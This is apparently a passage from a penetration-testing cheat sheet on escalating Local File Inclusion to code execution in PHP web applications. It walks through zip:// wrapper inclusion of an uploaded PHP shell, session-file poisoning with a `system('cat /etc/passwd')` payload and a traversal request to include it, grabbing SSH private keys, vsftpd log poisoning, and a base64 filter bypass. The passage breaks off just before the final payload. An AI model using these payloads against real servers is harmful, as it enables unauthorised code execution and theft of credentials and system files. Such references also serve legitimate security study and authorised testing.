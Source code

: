 In order to keep the file readable it is best to inject into the metadata of the pictures/doc/pdf

### Via Zip fie upload

Upload a ZIP file containing a PHP shell compressed and access:

```python
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

### Via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into _/var/lib/php5/sess\\_\[PHPSESSID]\_ files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

### Via ssh

If ssh is active check which user is being used (/proc/self/status & /etc/passwd) and try to access **\<HOME>/.ssh/id\_rsa**

### **Via** **vsftpd** _**logs**_

The logs for the FTP server vsftpd are located at _**/var/log/vsftpd.log**_. In the scenario where a Local File Inclusion (LFI) vulnerability exists, and access to an exposed vsftpd server is possible, the following steps can be considered:

1. Inject a PHP payload into the username field during the login process.
2. Post injection, utilize the LFI to retrieve the server logs from _**/var/log/vsftpd.log**_.

### Via php base64 filter (using base64)

As shown in [this](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) article, PHP base64 filter just ignore Non-base64.You can use that to bypass the file extension check: if you supply base64 that ends with ".php", and it would just ignore the "." and append "php" to the base64. Here is an example payload:
